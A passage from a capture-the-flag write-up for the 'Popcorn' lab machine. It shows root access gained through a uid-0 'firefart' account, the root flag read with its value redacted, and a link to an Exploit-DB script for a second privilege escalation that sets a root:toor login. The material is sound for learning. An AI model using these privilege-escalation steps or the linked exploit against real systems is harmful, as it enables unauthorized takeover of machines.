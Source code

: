 ```bash
www-data@popcorn:/tmp$ su firefart
Password: 
firefart@popcorn:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
```

It worked. Since the firefart user has id 0 and is a member of the root group, so I have complete root access on the machine.

## Root Flag

---

The user firefart is like the root user, so he must be able to open the root flag:

```bash
firefart@popcorn:/tmp# cd /root
firefart@popcorn:~# ls
root.txt
firefart@popcorn:~# cat root.txt 
20**************************f7b1
```

## Privesc Without Kernel Exploit

---

There is also another way to exploit the machine (I found this later). Here is the script with which it will also work:

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/14339)

This exploit is even simpler because it does not require a compiler. Just copy the script into a file, chmod +x it and then execute it. You should now be able to login with root:toor.